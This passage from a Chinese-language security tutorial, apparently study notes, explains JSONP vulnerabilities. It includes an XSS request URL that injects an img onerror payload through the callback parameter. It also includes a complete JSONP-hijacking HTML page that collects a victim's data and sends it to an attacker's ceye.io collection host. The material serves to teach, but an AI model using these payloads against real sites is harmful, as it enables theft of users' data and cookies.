 登录成功时效果：

<img src="images/interview/jsonp02.png" width="480">

#### JSONP的安全威胁

至少有2个：
- 输入的callback函数名过滤不严格，攻击者可借助XSS脚本中函数为回调函数，在用户入口点注入特定字符串，导致数据直接输出到前端。
- 对数据源不进行限制，可能会由JSONP导入不安全的数据或脚本。

##### xss示例
构造下列请求链接：```http://172.16.31.149/jsonp/index.php?callback=jsonp_5981%3Cimg%20src=x%20onerror=alert(/xss/)%3E```

可以获取到用户的cookie信息或者劫持用户跳转到钓鱼网站

##### JSONP劫持

实质上算是一种读类型的CSRF，在恶意的网页中构造恶意的JS代码，当合法用户点击该网页，由于目标站点存在JSONP劫持漏洞的接口，因此会将用户的该接口对应的信息劫持，并将其发送到攻击者的服务器。

示例网页：
```html
<html>
  <head>
    <title>jsonp劫持</title>
    <meta charset="utf-8">
  </head>
  <script type="text/javascript" src="https://apps.bdimg.com/libs/jquery/2.1.4/jquery.min.js"></script>
  <script>
    function jsonp_hack(v){
      alert("jsonp劫持");
      var h='';
      for(var key in v){
        var a=''
        a=key+' : '+v[key]+' ,'
        h+=a
      }
      alert(h);
      $.get('http://jsonp1.kijkv0.ceye.io?value='+h);/*这是攻击者的链接，可以用于接收JSONP获得的信息*/
    }
  </script>
  <script src="http://172.16.31.149/jsonp/index.php?callback=jsonp_hack"></script>
  <body>
    <h1>jsonp劫持</h1>
  </body>
</html>
```
